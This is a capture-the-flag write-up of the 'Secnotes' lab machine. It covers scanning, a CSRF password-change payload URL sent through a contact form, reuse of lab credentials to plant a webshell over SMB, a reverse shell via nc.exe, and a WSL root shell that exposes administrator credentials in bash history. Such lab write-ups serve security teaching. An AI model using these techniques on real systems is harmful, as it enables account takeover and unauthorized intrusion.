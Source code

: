 # Secnotes

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.180    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:49 EDT
Nmap scan report for 10.129.85.180
Host is up (0.010s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Interesting ports for a Windows machine.

### Request Forgery

Port 80 just shows a login page:

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can create a user to login.

<figure><img src="../../../.gitbook/assets/image (21) (7).png" alt=""><figcaption></figcaption></figure>

There's a user with an email, and this user might click on the links we send. I sent one like so:

<figure><img src="../../../.gitbook/assets/image (9) (6).png" alt=""><figcaption></figcaption></figure>

And we do indeed get a callback on a `nc` listening port.

```
$ nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.180] 49797
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.13
Connection: Keep-Alive
```

So there's some request forgery going on here. I tried changing passwords, and viewed the request in Burp:

```http
POST /change_pass.php HTTP/1.1
Host: 10.129.85.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://10.129.85.180
Connection: close
Referer: http://10.129.85.180/change_pass.php
Cookie: PHPSESSID=8ufhg7s7ejqtmjcfike2ek21fl
Upgrade-Insecure-Requests: 1



password=test%40123&confirm_password=test%40123&submit=submit
```

I found that if we convert this to a GET requests, it still works. This means we can change the password of the user by redirecting him to the `change.php` site and entering the same parameters. Send this to the Contact Us page:

{% code overflow="wrap" %}
```
http://10.129.85.180/change_pass.php?password=easypass&confirm_password=easypass&submit=submit
```
{% endcode %}

After waiting for a bit, we can login as `tyler` using this password.

<figure><img src="../../../.gitbook/assets/image (50) (5).png" alt=""><figcaption></figcaption></figure>

There are some credentials located within the note **new site**.&#x20;

```
\\secnotes.htb\newsite
tyler / 92g!mA8BGjOirkL%OG*&
```

### SMB

Now that we have some credentials, we can check whether they are valid:

```
$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.129.85.182
[+] IP: 10.129.85.182:445       Name: 10.129.85.182                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

So we have read and write permissions on `new-site`. There's another IIS web server on port 8808, which I think is the new site being referred to. We can put a webshell on it and check if it works.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

Now we have RCE, and we can get a reverse shell through downloading and executing `nc.exe`.

&#x20;

<figure><img src="../../../.gitbook/assets/image (20) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bash Shell

Within the user's desktop, there is a `bash.lnk` file:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
05/04/2023  07:02 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
```

When we view its contents, we can't make out a lot but we can see that `bash.exe` is installed on the system:

{% code overflow="wrap" %}
```
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B   ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                    �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```
{% endcode %}

We can search for this using `where`.&#x20;

```
C:\Users\tyler\Desktop>where /R c:\ bash.exe
c:\Windows\System32\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

The first one doesn't work, so I tried the second one.

<figure><img src="../../../.gitbook/assets/image (25) (7) (1).png" alt=""><figcaption></figcaption></figure>

We would spawn in a `root` shell. We can spawn a PTY shell the normal way with `python3`.

```
exitroot@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

Then, when viewing the bash history file, we can see credentials for the administrator:

```
root@SECNOTES:~# cat .bash_history
<TRUNCATED>
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can verify these credentials via `smbmap`.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (6) (1).png" alt=""><figcaption></figcaption></figure>

We have complete control over the file system, and we can get a shell with `smbexec.py` because only SMB is open.

<figure><img src="../../../.gitbook/assets/image (14) (8).png" alt=""><figcaption></figcaption></figure>
